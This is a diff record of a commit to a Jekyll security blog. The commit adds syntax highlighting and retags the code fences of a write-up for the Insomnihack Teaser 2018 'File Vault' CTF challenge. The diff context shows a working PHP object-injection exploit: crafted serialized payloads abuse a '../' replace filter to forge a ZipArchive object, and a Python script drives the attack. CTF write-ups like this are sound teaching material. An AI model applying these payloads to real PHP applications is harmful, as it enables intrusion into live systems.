

Before and after one commit to Corb3nik/Corb3nik.github.io, a Jekyll site: the page built from _posts/insomnihack-teaser-2018/2018-01-20-file-vault.md, in a window 1280 px wide and 1400 px high, scrolled down 5043 px. Shown: the whole window, without its empty margins (208-1061 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add real syntax highlighting now

````diff
--- a/Gemfile
+++ b/Gemfile
@@ -1,3 +1,2 @@
 source 'https://rubygems.org'
-gem 'jekyll'
-gem 'jekyll-sitemap'
+gem 'github-pages', group: :jekyll_plugins
--- a/_config.yml
+++ b/_config.yml
@@ -24,4 +24,4 @@ markdown: kramdown
 kramdown:
   input: GFM
   hard_wrap: false
-highlighter: rouge
+  syntax_highlighter: rouge
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -21,6 +21,7 @@
     <link rel="icon" href="/assets/img/favicon.png">
     <link rel="stylesheet"
 href="https://fonts.googleapis.com/css?family=Inconsolata:400,700">
+    <link rel="stylesheet" type="text/css" href="/assets/css/syntax.css">
     <link rel="stylesheet" type="text/css" href="/assets/css/main.css">
 </head>
 
--- a/_posts/insomnihack-teaser-2018/2018-01-20-file-vault.md
+++ b/_posts/insomnihack-teaser-2018/2018-01-20-file-vault.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: File Vault
-category: Insomnihack Teaser 2018
+category: insomnihack-teaser-2018
 ---
 
 # Description
@@ -86,7 +86,7 @@ s cookie, deserializes the `VaultFile` object via `s_unserialized()`
 and processes it accordingly.
 
 Here's is what a `VaultFile` object looks like :
-```
+```php
 a:1:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:4:"asdf";s:8:"realname";s:44:"6322fe412ca3cd526522d9d7fde5f2a383ca4c3f.txt";}}e28cae7d9495e4f9e9c65e268f8ac4d975f4c94e02b04fa1144a9400979dae23
 ```
 
@@ -154,7 +154,7 @@ the serialied object is signed and validated against a `$secret`. In the event
 of an invalid signature in the `s_unserialize()` function, the unserialized
 object is never returned :
 
-```
+```php
 function s_serialize($a, $secret) {
   $b = serialize($a);
   $b = str_replace("../","./",$b);
@@ -183,7 +183,7 @@ no methods allowing us to arbitrarly read/write files.
 The vulnerability in the application, which makes this challenge so interesting,
 is in the following code :
 
-```
+```php
 function s_serialize($a, $secret) {
   $b = serialize($a);
   $b = str_replace("../","./",$b);
@@ -196,7 +196,7 @@ here is that the `str_replace` call is performed on a *serialized object*,
 instead of a string.
 
 Why does this matter? Here's a snippet of a serialized array.
-```
+```php
 php > $array = array();
 php > $array[] = "../";
 php > $array[] = "hello";
@@ -206,7 +206,7 @@ a:2:{i:0;s:3:"../";i:1;s:5:"hello";}
 
 Let's perform the `../` "filter" :
 
-```
+```php
 php > echo str_replace("../","./", serialize($array));
 a:2:{i:0;s:3:"./";i:1;s:5:"hello";}
 ```
@@ -219,14 +219,14 @@ When this new corrupted object will be processed by `unserialize()`, PHP
 will consider the next character in the serialized object (`"`) as being part
 of its value :
 
-```
+```php
 a:2:{i:0;s:3:"./";i:1;s:5:"hello";}
               --- <== The value parsed by unserialize() is ./"
 ```
 
 The more `../` you add, the more characters end up being parsed by `unserialize()`.
 
-```
+```php
 php > $array = array();
 php > $array[] = "../../../../../../../../../../../../";
 php > $array[] = "hello";
@@ -259,7 +259,7 @@ In the event where we control the `hello` string, its just a matter
 of replacing `hello` with the end of a valid serialized object.
 Here's an example :
 
-```
+```php
 php > $array = array();
 php > $array[] = "../../../../../../../../../../../../../";
 php > $array[] = 'A";i:1;s:8:"Injected';
@@ -307,7 +307,8 @@ functions...
 
 So far, we've used pretty much all of the features of the webapp with the exception
 of one : `open`. Here is the implementation :
-```
+
+```php
 case 'open':
     $files = s_unserialize($_COOKIE['files'], $secret);
     if(isset($files[$_GET['i']])){
@@ -331,7 +332,8 @@ objects, we also control the parameters of the `open()` call
 (`fakename` and `realname`).
 
 Let's list all classes containing an `open()` method :
-```
+
+```php
 $ cat list.php
 <?php
   foreach (get_declared_classes() as $class) {
@@ -341,7 +343,9 @@ $ cat list.php
     }
   }
 ?>
+```
 
+```bash
 $ php list.php
 SQLite3->open
 SessionHandler->open
@@ -368,7 +372,7 @@ Let's develop our final payload.
 
 I created a python script to automate the actions of the web app.
 
-```
+```python
 #!/usr/bin/env python2
 
 import requests
@@ -399,13 +403,13 @@ def open_file(index):
 ```
 
 Let's prepare our VaultFile objects by uploading two files :
-```
+```python
 upload("A")
 upload("B")
 ```
 
 The webapp will send us the following cookie :
-```
+```php
 a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:1:"A";s:8:"realname";s:44:
 "911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:
 {s:8:"fakename";s:1:"B";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3
@@ -426,7 +430,7 @@ Therefore, to reach `fakename` #2, we need to rename the first
 We'll want to prepare a ZipArchive object to inject in this cookie.
 Let's create one:
 
-```
+```php
 php > $zip = new ZipArchive();
 php > $zip->fakename = "sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";
 php > $zip->realname = "9";
@@ -439,7 +443,7 @@ Since our goal is to call `ZipArchive->open(".htaccess", "9")`, we added a `fake
 If we inject our object as is, we will be left with a trailing `realname`.
 This might clash with the forged `realname` we created above.
 
-```
+```php
 ";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt
 ```
 
@@ -447,7 +451,7 @@ We can remove the trailing `realname` by updating the size of the serialized
 `ZipArchive->comment` parameter. The size of the trailing section is 67,
 so we update the `comment` size accordingly.
 
-```
+```php
 O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";}
 ```
 
@@ -456,24 +460,22 @@ O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa
 We now have all the ingredients. Let's rename our second
 `VaultFile->fakename` :
 
-```
-{% raw %}
+```php
 # We end the first object with a dummy parameter, then start the second object
 # with our ZipArchive
 serialized_injection = '";s:1:"e";s:0:"";}i:1;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'
-{% endraw %}
 
 rename(1, serialized_injection)
 ```
 
 Let's now rename our first `VaultFile->fakename` :
-```
+```python
 newname = "../" * 115 # To overwrite fakename #2
 rename(0, newname)
 ```
 
 In the end, we'll receive the following cookie :
-```
+```php
 a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:345:"./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:245:"";s:1:"e";s:0:"";}i:2;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}}6f72e63954ac6e08c3ebc6e4abdff60956a82d9ebc556873410c9ef456098b69
 ```
 
--- a/_sass/overwrite.scss
+++ b/_sass/overwrite.scss
@@ -1,8 +1,15 @@
 .post__content img {
-  width: 100%;
-  height: auto;
+  width:  600px !important;
+  border: 2px solid black !important;
+  height: auto !important;
+  margin: 0 auto;
 }
 
-.highlight {
-  overflow: scroll;
+.wrapper {
+  max-width: 800px !important;
 }
+
+pre.highlight {
+  word-wrap: break-word !important;
+  white-space: pre-wrap !important;
+}
--- /dev/null
+++ b/assets/css/syntax.css
@@ -0,0 +1,173 @@
+.highlight table td { padding: 5px; }
+.highlight table pre { margin: 0; }
+.highlight {
+  color: #faf6e4;
+  background-color: #122b3b;
+}
+.highlight .gl {
+  color: #dee5e7;
+  background-color: #4e5d62;
+}
+.highlight .gp {
+  color: #a8e1fe;
+  font-weight: bold;
+}
+.highlight .c, .highlight .cd, .highlight .cm, .highlight .c1, .highlight .cs {
+  color: #6c8b9f;
+  font-style: italic;
+}
+.highlight .cp {
+  color: #b2fd6d;
+  font-weight: bold;
+  font-style: italic;
+}
+.highlight .err {
+  color: #fefeec;
+  background-color: #cc0000;
+}
+.highlight .gr {
+  color: #cc0000;
+  font-weight: bold;
+  font-style: italic;
+}
+.highlight .k, .highlight .kd, .highlight .kv {
+  color: #f6dd62;
+  font-weight: bold;
+}
+.highlight .o, .highlight .ow {
+  color: #4df4ff;
+  font-weight: bold;
+}
+.highlight .p, .highlight .pi {
+  color: #4df4ff;
+}
+.highlight .gd {
+  color: #cc0000;
+}
+.highlight .gi {
+  color: #b2fd6d;
+}
+.highlight .ge {
+  font-style: italic;
+}
+.highlight .gs {
+  font-weight: bold;
+}
+.highlight .gt {
+  color: #dee5e7;
+  background-color: #4e5d62;
+}
+.highlight .kc {
+  color: #f696db;
+  font-weight: bold;
+}
+.highlight .kn {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .kp {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .kr {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .gh {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .gu {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .kt {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .no {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .nc {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .nd {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .nn {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .bp {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .ne {
+  color: #b2fd6d;
+  font-weight: bold;
+}
+.highlight .nl {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .nt {
+  color: #ffb000;
+  font-weight: bold;
+}
+.highlight .m, .highlight .mf, .highlight .mh, .highlight .mi, .highlight .il, .highlight .mo, .highlight .mb, .highlight .mx {
+  color: #f696db;
+  font-weight: bold;
+}
+.highlight .ld {
+  color: #f696db;
+  font-weight: bold;
+}
+.highlight .ss {
+  color: #f696db;
+  font-weight: bold;
+}
+.highlight .s, .highlight .sb, .highlight .sd, .highlight .s2, .highlight .sh, .highlight .sx, .highlight .sr, .highlight .s1 {
+  color: #fff0a6;
+  font-weight: bold;
+}
+.highlight .se {
+  color: #4df4ff;
+  font-weight: bold;
+}
+.highlight .sc {
+  color: #4df4ff;
+  font-weight: bold;
+}
+.highlight .si {
+  color: #4df4ff;
+  font-weight: bold;
+}
+.highlight .nb {
+  font-weight: bold;
+}
+.highlight .ni {
+  color: #999999;
+  font-weight: bold;
+}
+.highlight .w {
+  color: #BBBBBB;
+}
+.highlight .go {
+  color: #BBBBBB;
+}
+.highlight .nf {
+  color: #a8e1fe;
+}
+.highlight .py {
+  color: #a8e1fe;
+}
+.highlight .na {
+  color: #a8e1fe;
+}
+.highlight .nv, .highlight .vc, .highlight .vg, .highlight .vi {
+  color: #a8e1fe;
+  font-weight: bold;
+}
````
Also changed, not shown: Gemfile.lock.
